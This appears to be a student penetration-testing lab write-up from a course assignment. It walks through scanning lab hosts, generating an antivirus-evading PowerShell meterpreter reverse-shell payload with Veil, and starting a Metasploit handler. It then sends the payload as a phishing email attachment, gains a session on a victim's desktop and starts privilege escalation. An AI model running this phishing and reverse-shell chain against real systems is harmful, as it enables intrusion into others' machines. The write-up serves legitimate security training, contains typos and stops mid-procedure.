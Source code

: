 # Assigment 3
For full executive report, see [PWNChallenge3_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/52cdf24de5320f4bfafb1f88050de00cfb7c3d1f/pwnchallenge3/PWNChallenge%233.pdf).

1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    ``

    10.20.160.10 and 1020.160.86 hosts are found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.10.
   
    ``
    nmap -A 10.20.160.10
    ``
    
    - **Port 25(smtp)**: the default port for relaying email on the internet.
    
    - **Port 110(pop3)**: used by the POP3 protocol for unencrypted access to electronic mail.
    
    - **Port 142(IMAP)**: a mail protocol used to access a mailbox on a remoteserver from a local email client.
    
3. To use email vulnerable, use Veil to create payload that could be attached in the email.
    
    - **Veil**: a tool to generate payload executables that bypass common antivirus.

    ``
    languge: powershell
    ``
    
    ``
    payload module: powershell/meterpreter/rev_tcp
    ``
    
4. To send email and get the respose, exploit handler first.
    
    - **Handler**: a process attacking mackine(metasploit) that listens and responds to connections made from the target.
    
    ``
    use multi/handler
    ``
   
5. Set payload.
   
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
    Now, handler is on.
    
7. Send phishing email attaching the bat file made from Veil.

    ``
   sendEmail -f caspian@dotcof.net -t olivia@pwn3.local -u update -m update -s 10.20.160.10 -a /var/lib/veil/output/source/update.bat -o tls=no
    ``

8. Successfully sending the email, new session 10.20.160.86 is opened. We are able to go into Olivia's desktop.
    
    ``
    type local.txt
    ``

9. To get proof.txt, we need to escalate the privilege.

    - **Local Explout Suggester:** post-exploitation module that you can use to check a system for local
vulnerabilities

    ``
    use  multi/recon/local_exploit_suggester
    ``
    
    ``
    exploit
    ``
    
10. Check the server username to see it has changed to authority.

    ``
    get uid
    ``
11. Then, use windows command to search the proof.txt.
